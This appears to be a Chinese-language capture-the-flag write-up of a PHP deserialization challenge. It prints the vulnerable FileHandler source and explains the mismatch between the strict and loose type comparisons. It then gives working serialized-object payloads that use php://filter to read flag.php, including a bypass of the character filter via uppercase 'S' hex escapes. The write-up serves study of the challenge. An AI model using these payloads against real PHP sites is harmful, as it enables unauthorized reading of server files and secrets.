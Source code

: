 ![[Pasted image 20221104081222.png]]
好一个一语双关
```php
<?php
include("flag.php");
highlight_file(__FILE__);
class FileHandler
{
	protected $op;
	protected $filename;
	protected $content;
	function __construct()
	{
		$op = "1";
		$filename = "/tmp/tmpfile";
		$content = "Hello World!";
		$this->process();
	}
	public function process()
	{
		if($this->op == "1")
		{
			$this->write();
		}
		else if($this->op == "2")
		{
			$res = $this->read();
			$this->output($res);
		}
		else
		{
			$this->output("Bad Hacker!");
		}
	}
	private function write()
	{
		if(isset($this->filename) && isset($this->content))
		{
			if(strlen((string)$this->content) > 100)
			{
				$this->output("Too long!");
				die();
			}
			$res = file_put_contents($this->filename,
									 $this->content);
			if($res)
			{
				$this->output("Successful!");
			}
			else 
			{
				$this->output("Failed!");
			}
		}
		else
		{
			$this->output("Failed!");
		}
	}
	private function read()
	{
		$res = "";
		if(isset($this->filename))
		{
			$res = file_get_contents($this->filename);
		}
		return $res;
	}
	private function output($s)
	{
		echo "[Result]: <br>";
		echo $s;
	}
	function __destruct()
	{
		if($this->op === "2")
		{
			$this->op = "1";
		}
		$this->content = "";
		$this->process();
	}
}

function is_valid($s)
{
	for($i = 0; $i < strlen($s); $i++)
	{
		if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
		{
			return false;
		}
	}
	return true;
}

if(isset($_GET{'str'}))
{
	$str = (string)$_GET['str'];
	if(is_valid($str))
	{
		$obj = unserialize($str);
	}
}
```
注意到
```php
function __destruct()
{
	if($this->op === "2")
	{
		$this->op = "1";
	}
	$this->content = "";
	$this->process();
}
```
`__destruct`方法中`$this->op`与`"2"`的比较是强类型比较
而
```php
public function process()
{
	if($this->op == "1")
	{
		$this->write();
	}
	else if($this->op == "2")
	{
		$res = $this->read();
		$this->output($res);
	}
	else
	{
		$this->output("Bad Hacker!");
	}
}
```
`process`方法中`$this->op`与`"1"`和`"2"`的比较是[[弱类型比较绕过|弱类型比较]]
可利用这一点绕过`__deconstruct`的限制
```php
/?str=O:11:"FileHandler":3:{s:5:"%00*%00op";i:2;s:11:"%00*%00filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:10:"%00*%00content";s:3:"123";}
```
发现并没有反应，原来是`%00`被`is_valid`拦截了，搜索发现可通过将序列化文本中的`s`改为`S`来支持16进制转义
```php
/?str=O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";S:10:"\00*\00content";s:3:"123";}
```
![[Pasted image 20221104092901.png]]
![[Pasted image 20221104093055.png]]
#Web #反序列化 #PHP #绕过 #LFI
